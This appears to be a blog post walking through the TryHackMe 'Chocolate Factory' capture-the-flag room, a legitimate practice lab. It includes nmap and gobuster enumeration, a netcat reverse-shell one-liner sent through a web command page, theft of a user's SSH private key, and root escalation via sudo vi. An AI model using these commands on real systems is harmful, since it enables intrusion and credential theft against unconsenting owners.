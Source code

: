 ```yaml
---
layout: post
title: Tryhackme Chocolate Factory Walkthrough 
date: 2021-02-03
description: You’ll find this post in your `_posts` directory. Go ahead and edit it and re-build the site to see your changes. # Add post description (optional)
img: titlephoto1.jpg # Add image post (optional)
tags: [Tryhackme, CTF] # add tag
---
```


Today’s blog post — I will give a walk-through on room called, “Chocolate Factory”. This is perfect practice for Beginners 

Let’s get started.
Firstly Diploy the machine and Wait a minute for get ip address to start.

![init]({{site.baseurl}}/assets/img/cholocate.tryhackme/init.png)

## Enumeration 
 
     sudo nmap -sV -sC -v <ip>
     <br />
     -sV: Probe open ports to determine service/version info 
     -sC: equivalent to --script=default 
     -v: verbose mode 
     
the result like look,<br />

  
  ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/init1.png)
   

There can see ftp running on port 21,ssh running on port 22 and webserver in port 80 Then try Open browser enter ip address default webserver running in port 80 
  
  ![nmap]({{site.baseurl}}/assets/img/cholocate.tryhackme/init2.png)

I trying sqlinjection but nothing changes ,So Check the directories using gobuster 

      gobuser dir -u <ip> -w /usr/share/seclists
  
OK.. Here see home.php <br />
 ![nmap]({{site.baseurl}}/assets/img/cholocate.tryhackme/command.ls.png)  
  try system commands then reverse connection command 
  
     'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f'
 
 remember one thing  disable your ufw firewall before run the listerning netcat <br />
  listerning  our system 
  
     nc -lvnp <port> 
    -l listen mode, for inbound connects 
    -v verbose 
    -n numeric-only IP addresses, no DNS 
    -p local port number
    
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/reverse2.png) 
   
   use python3 shell for better interaction <br />
      
      python3 -c 'import pty; pty.spawn("/bin/sh")' 
      
   then list out file and read key
   
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/cat.key.png)
  
   Read validate.php
   
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/validateuser.png)
   
   change the user to charlie <br/>
   /home/charlie and list all files <br />
   found RSA key in this folder called teleport and I copied it to my machine and saved that under the name id_rsa.change permission
   
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/id_rsa.png) <br />
   
    chmod 600 filename 
    
   login with ssh charlie user
    
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/sshcharlie.png) <br />
   read the user key <br />
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/userflag.png) <br />
   
 ## Privilege Escalation  
  check the current user privilege 
   
     sudo -l 
    
 <br/>
 ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/userprivilege.png) <br />
   get root permission using vi <br />
   use this website [GTFOBINS](http://gtfobins.github.io/) <br />
   search vi get result 
   
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/gtbl.png) <br />
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/root.png) <br />
   copy the command and paste into terminal and hit enter <br />
   Now root user <br >
   change charlie to root <br />
   
    su root 
    
   ![success]({{site.baseurl}}/assets/img/cholocate.tryhackme/root3.png) <br />
   run the file with key
   DONE 
  

